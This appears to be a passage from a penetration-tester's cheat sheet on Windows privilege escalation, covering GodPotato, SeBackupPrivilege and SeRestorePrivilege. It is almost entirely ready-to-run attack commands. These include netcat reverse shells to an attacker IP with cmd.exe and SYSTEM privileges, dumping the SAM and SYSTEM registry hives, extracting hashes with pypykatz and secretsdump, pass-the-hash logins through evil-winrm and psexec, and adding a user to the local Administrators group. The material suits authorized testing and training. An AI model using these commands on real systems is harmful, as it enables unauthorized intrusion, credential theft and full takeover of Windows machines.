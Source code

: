 Exploitation:
- [GitHub - BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato):
	- `.\GodPotato -cmd "cmd /c whoami"`
	- `.\GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012""`

## Privileges

- detection: `whoami /priv`

Resource:
- [https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)

### SeBackupPrivilege

Vulnerability identikit:
- `SeBackupPrivilege` privilege for current user

Exploitation:
1. create a folder:
	- `mkdir C:\Temp`
2. export the `HKLM\SAM` registry hive:
	- `reg save hklm\sam C:\Temp\sam.hive`
3. export the `HKLM\SYSTEM`:
	- `reg save hklm\system C:\Temp\system.hive`
4. transfer the exported hive on attacker machine
5. extract local hashes (two options):
	- `pypykatz registry --sam <file SAM> <file SYSTEM>`
	- `secretsdump.py -sam SAM -system SYSTEM LOCAL`
6. Pass The Hash (alternative):
	- `evil-winrm -i <target IP> -u Administrator -H "<hash NT utente Administrator>"`
	- `psexec.py -hashes ":<ADMINISTRATOR_NTLM>" <Administrator>@<TARGET_IP>`

Details: [https://github.com/gtworek/Priv2Admin/blob/master/SeBackupPrivilege.md](https://github.com/gtworek/Priv2Admin/blob/master/SeBackupPrivilege.md)

***nice to try*** (not tested):
- [Backup-DumpNTDS.ps1](https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Backup-DumpNTDS.ps1)
- [Backup-ToSystem.ps1](https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Backup-ToSystem.ps1)

### SeRestorePrivilege

Vulnerability identikit:
- `SeRestorePrivilege` privilege for current user

Exploitation:
1. cloning [https://github.com/xct/SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse)
2. compiling project with Visual Studio
3. upload on target these files:
	- SeRestoreAbuse.exe
	- nc64.exe (optional)
4. exploitation
	- **NB**: running `.\SeRestoreAbuse.exe "cmd /c ..."` will *most likely* result in an error similar to "`RegCreateKeyExA result: 0[...]RegSetValueExA result: 0[...]SeRestoreAbuse.exe : start-service : Service 'Secondary Logon (seclogon)' cannot be started due to the following error: Cannot start`". The error is irrelevant for the correct execution of the command
	- reverse shell with `SYSTEM` privileges
		- (on attacker) `rlwrap nc -nvlp <REV PORT>`
		- `.\SeRestoreAbuse.exe "cmd /c C:\absolute\path\to\nc64.exe -e cmd.exe <IP ATTACKER> <REV PORT>"`
	- add current user to local "Administrators" group
		- `.\SeRestoreAbuse.exe "cmd /c net localgroup administrators <USER OWNED> /add"`
		- requires logout and new login for Administrator privileges to be enabled
